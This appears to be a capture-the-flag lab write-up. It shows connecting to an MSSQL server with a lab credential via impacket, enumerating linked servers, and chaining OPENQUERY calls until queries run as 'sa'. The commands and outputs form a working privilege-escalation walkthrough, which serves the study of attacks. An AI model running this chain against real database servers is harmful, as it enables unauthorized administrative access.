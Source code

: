 >[!bug] Connect to the database using the credentials
>- Im using [`mssqlclient.py`](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) from `impacket`
```sh
python3 mssqlclient.py external_user:#p00Public3xt3rnalUs3r#@10.13.38.11
```
>[!bug] Start enumerating using `sysdatabases`
```sql
select name from sysdatabases;
```
>[!bug] Check current user privileges
```sql
select permission_name FROM fn_my_permissions(null, 'server');
```
>[!important] We can connect to other databases
```sql
CONNECT SQL
```
>[!bug] Enumerate the available servers
```sql
select srvname from sysservers;
```
>[!tip] `POO_CONFIG` is available
```
COMPATIBILITY\POO_CONFIG

COMPATIBILITY\POO_PUBLIC
```
>[!bug] Check if you can sent queries to the external server
```sql
select * from openquery([compatibility\poo_config], 'select @@servername;');
```
>[!important] The command was successful
```
------------------------
COMPATIBILITY\POO_CONFIG
```
>[!bug] Check which user in running commands on `POO_CONFIG`
```sql
select * from openquery([compatibility\poo_config], 'select suser_name();');
```
>[!important] This time is the internal user
```
-------------
internal_user
```
>[!info]
>- `internal_user` have the same permissions than `external_user`
```
CONNECT SQL
```
>[!danger] Execute a query from the `poo_public` server that runs a query on the `poo_config` server, which in turn executes another query back on the `poo_public` server
```sql
SELECT * FROM OPENQUERY([compatibility\poo_config], 'SELECT * FROM OPENQUERY([compatibility\poo_public], ''SELECT @@servername;'')');
```
>[!important] It works!
```
------------------------
COMPATIBILITY\POO_PUBLIC
```
>[!bug] But this time who run the query from `POO_CONFIG` is the user `sa`
```sql
SELECT * FROM OPENQUERY([compatibility\poo_config], 'SELECT * FROM OPENQUERY([compatibility\poo_public], ''select suser_name();'')');

--
sa
```